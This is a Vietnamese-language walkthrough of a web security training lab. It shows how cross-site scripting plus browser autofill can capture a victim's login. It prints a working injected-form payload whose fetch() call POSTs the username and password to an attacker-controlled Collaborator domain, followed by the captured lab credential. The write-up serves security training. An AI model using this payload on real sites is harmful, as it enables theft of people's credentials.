



# Lab: Exploiting cross-site scripting to capture passwords

## Mô tả lab

Bài lab này thuộc nhóm Exploiting XSS.  Khác với lab đánh cắp cookie, ở bài này mục tiêu là đánh cắp username và password của victim. 

Vì thông tin này không nằm sẵn trong cookie, ta cần lợi dụng cơ chế autofill của trình duyệt hoặc password manager để khiến username/password được tự động điền vào form giả do attacker chèn vào.

> Lab này có thể solve bằng Burp Collaborator hoặc bằng một webhook/server tự kiểm soát.

## Các bước thực hiện

## Ý tưởng khai thác

Ở lab trước, ta có thể lấy session bằng:

```javascript
document.cookie
```

Tuy nhiên, trong bài này mục tiêu là username và password. Các thông tin này thường không nằm trực tiếp trong cookie hoặc trong DOM.

Nếu attacker có thể chèn một form giả với các trường:

```html
<input name="username">
<input name="password">
```

thì trình duyệt hoặc password manager có thể tự động điền thông tin đăng nhập của victim vào các trường này.

Sau đó, ta chỉ cần dùng JavaScript để gửi giá trị của các trường đó về server do attacker kiểm soát.

## Payload

Tạo một Collaborator domain và dựng payload:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://tifz4s2ondbejpvjeo4qnhe06rci09oy.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


## Kiểm tra Burp Collaborator



```text
administrator:hbezlwtqsuh7cu8f56po
```



Lab solved.